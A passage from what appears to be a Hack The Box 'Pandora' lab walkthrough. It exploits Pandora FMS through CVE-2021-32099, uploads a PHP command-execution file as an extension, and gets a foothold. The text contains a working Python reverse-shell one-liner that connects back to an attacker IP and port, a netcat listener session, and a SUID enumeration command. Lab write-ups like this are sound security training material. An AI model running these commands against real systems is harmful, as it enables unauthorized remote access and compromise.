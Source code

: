 Now I can load this `[localhost:80](http://localhost:80)` site →

I got this vulnerability of `pandora FMS` site of this version on web →

https://github.com/ibnuuby/CVE-2021-32099

I used it and got redirected to the admin site automaticly →

![Untitled](Pandora/Untitled%201.png)

I followed the other link path and from `Admin tools > Extension Manager > Extension uploader` , I got to the upload site page and I uploaded the payload which is a RFI payload wrapper in zip file .

![Untitled](Pandora/Untitled%202.png)

```python
┌──(kali㉿kali)-[~/Downloads/HTB/Pandora]
└─$ zip RFI.zip RFI.php 
  adding: RFI.php (stored 0%)
```
{: .nolineno}
{: .nolineno}

I got the success response so lets load the RFI now →

![Untitled](Pandora/Untitled%203.png)

I loaded the extension URL →

`http://localhost/pandora_console/extensions/RFI.php?cmd=id`

![Untitled](Pandora/Untitled%204.png)

I used the python3 reverse shell code this one to get the reverse shell →

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}
{: .nolineno}

In response to that I got the shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pandora]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.136] 33456
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
matt@pandora:/var/www/pandora/pandora_console/extensions$ cd ~
cd ~
matt@pandora:/home/matt$ whoami
whoami
matt
matt@pandora:/home/matt$ id
id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
matt@pandora:/home/matt$
matt@pandora:/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
```